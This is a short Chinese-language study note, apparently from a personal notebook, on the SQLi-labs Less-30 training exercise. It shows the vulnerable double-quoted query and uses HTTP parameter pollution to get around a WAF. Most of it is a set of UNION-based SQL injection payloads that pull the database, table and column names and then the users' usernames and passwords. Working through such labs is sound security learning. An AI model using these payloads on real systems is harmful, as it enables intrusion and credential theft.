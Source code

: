 ```yaml
---
title: less30
url: https://www.yuque.com/u29002979/ep2zrx/zyusq4qg670kl2g0
---
```


```bash
$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

与Less29的区别为闭合方式为双引号"

> This Site Protected by Worlds Best WAF
> 本网站受世界最佳WAF保护

`?id=1&id=1" and 1="1`闭合
双引号闭合

<a name="ohpIT"></a>

# HTTP参数污染

<a name="iQW9u"></a>

## 联合查询

> **?id=1\&id=0"**

```bash
查看当前数据库名称
?id=1'&id=0" union select 1,2,(select database()) --+

查看数据表名称
?id=1'&id=0" union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+

爆破字段名称
?id=1&id=0" union select 1,2,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')--+

爆破字段内容 
?id=1&id=0" union select 1,2,(select group_concat(username,0x7e,password)from security.users )--+
```
